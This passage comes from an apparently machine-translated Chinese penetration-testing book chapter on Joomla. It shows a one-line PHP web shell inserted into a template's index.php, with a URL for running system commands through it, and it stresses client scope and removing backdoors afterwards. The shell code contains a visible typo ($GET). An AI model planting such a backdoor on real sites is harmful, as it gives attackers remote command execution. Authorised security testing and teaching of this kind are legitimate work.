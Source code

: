 我们单击 index.php 并将定制的 php 一行代码添加到文件中。这起到了后门的作用，允许我们执行系统级命令：

```
<?php passthru($GET['cmd']); ?>
```

以下屏幕截图显示索引的第一行现在有了我们的后门：

![](img/44711f34-0857-42a5-8816-3e4eab8efa0c.png)

保存更改后，我们可以通过以下路径浏览我们的后门：

```
domainname.com/<joomla path>/templates/<template name>/index.php?cmd=id
```

以下屏幕截图显示我们的命令已成功执行：

![](img/0f8be83b-b9e5-48f8-b61c-d476a4af7543.png)

一旦我们向客户提供了概念证明，Joomla 的开发就结束了。然而，超出正常的开发方法并进入网络是需要在项目启动会议上与客户讨论的事情。作为笔测试人员，我们必须遵守客户定义的范围。

如果上传任何此类有效负载只是为了获得概念验证，我们有义务在攻击完成后移除这些后门。

# 总结

在本章中，我们学习了 Joomla 体系结构及其文件和目录结构。然后，我们进入了侦察过程，了解了查找 Joomla 实例及其版本号的不同方法。我们还研究了为我们实现过程自动化的工具和脚本。最后，我们研究了 Joomla 漏洞利用的深入过程，并使用以前发现的公开漏洞利用的示例研究了漏洞利用的工作原理。

在下一章中，我们将学习如何在另一个流行的 CMS Drupal 上执行笔测试。

# 问题
